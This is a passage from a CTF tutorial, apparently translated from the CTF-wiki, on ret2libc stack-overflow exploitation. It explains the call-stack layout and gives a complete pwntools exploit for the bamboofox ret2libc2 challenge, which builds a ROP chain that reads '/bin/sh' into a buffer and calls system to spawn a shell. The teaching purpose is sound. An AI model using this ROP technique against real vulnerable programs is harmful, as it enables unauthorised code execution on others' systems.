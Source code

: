 

Here we need to pay attention to the structure of the function call stack. If the system function is called normally, we will have a corresponding return address when calling, where &#39;bbbb&#39; is used as the fake address, and then the parameter content corresponding to the parameter.


This example is relatively simple, and provides the address of the system address and /bin/sh, but most programs don&#39;t have such a good condition.


#### Example 2


Here is an example of ret2libc2 in bamboofox.


点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)



This topic is basically the same as in Example 1, except that the /bin/sh string no longer appears, so we need to read the string ourselves, so we need two gadgets, the first control program reads the string, the first The two control programs execute system(&quot;/bin/sh&quot;). Since the vulnerability is consistent with the above, here is not to say more, the specific exp is as follows


```python

##!/usr/bin/env python

from pwn import *



sh = process('./ret2libc2')



gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d

buf2 = 0x804a080

payload = flat(

    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])

sh.sendline(payload)

sh.sendline('/bin/sh')

sh.interactive()

```
